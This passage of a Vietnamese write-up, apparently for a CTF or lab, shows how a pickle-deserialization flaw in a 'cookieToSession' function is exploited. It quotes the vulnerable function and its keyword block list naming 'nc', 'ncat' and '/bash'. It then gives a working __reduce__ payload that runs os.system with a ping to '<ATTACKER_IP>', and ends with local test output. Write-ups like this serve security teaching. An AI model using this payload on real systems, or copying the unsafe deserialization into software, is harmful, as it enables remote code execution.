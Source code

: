 #### **2. Kiểm tra Chức năng `cookieToSession`**
Trong hàm `cookieToSession`, chúng ta thấy rằng có một bộ lọc được áp dụng để ngăn chặn một số từ khóa, chẳng hạn như `subprocess`, `Popen`, `/bash`, `/sh`, v.v. Điều này có thể giúp ngăn chặn một số phương thức phổ biến để thực hiện lệnh hệ thống từ xa.

```python
def cookieToSession(cookie):
    b = base64.b64decode(cookie)
    for badword in [b"nc", b"ncat", b"/bash", b"/sh", b"subprocess", b"Popen"]:
        if badword in b:
            return None
    p = pickle.loads(b)
    return p
```
Tuy nhiên, vẫn có cách khác để đạt được mục tiêu **RCE** mà không bị bộ lọc phát hiện. Một trong những cách này là sử dụng **`__reduce__()`**, một hàm đặc biệt trong Python cho phép định nghĩa cách đối tượng được **pickled** và **unpickled**.

#### **3. Lợi dụng `__reduce__()` để RCE**
Khi đối tượng được **pickled**, nếu lớp của đối tượng đó có định nghĩa phương thức `__reduce__()`, phương thức này sẽ được gọi để phục hồi lại đối tượng khi giải mã. Chúng ta có thể sử dụng phương thức này để chỉ định một lệnh hệ thống cần thực thi, ví dụ như `os.system()`.

Để vượt qua bộ lọc từ khóa, chúng ta có thể tạo một **payload** với một lệnh **`ping`** để kiểm tra xem RCE có hoạt động không.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return os.system, ("ping -c 5 <ATTACKER_IP>",)

r = RCE()
p = pickle.dumps(r)
b = base64.b64encode(p)
print(b.decode())
```

Kết quả sẽ là một chuỗi base64 được mã hóa mà chúng ta có thể sử dụng làm giá trị cookie.

#### **4. Kiểm tra Payload Local**
Khi thử nghiệm payload trên môi trường cục bộ, chúng ta có thể kiểm tra lại kết quả và xác nhận rằng lệnh `ping` được thực thi.

```python
>>> import util.auth
>>> s = util.auth.cookieToSession('gASVLgAAAAAAAACMBXBvc2l4lIwGc3lzdGVt...SNIP...')
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.044 ms
...
```
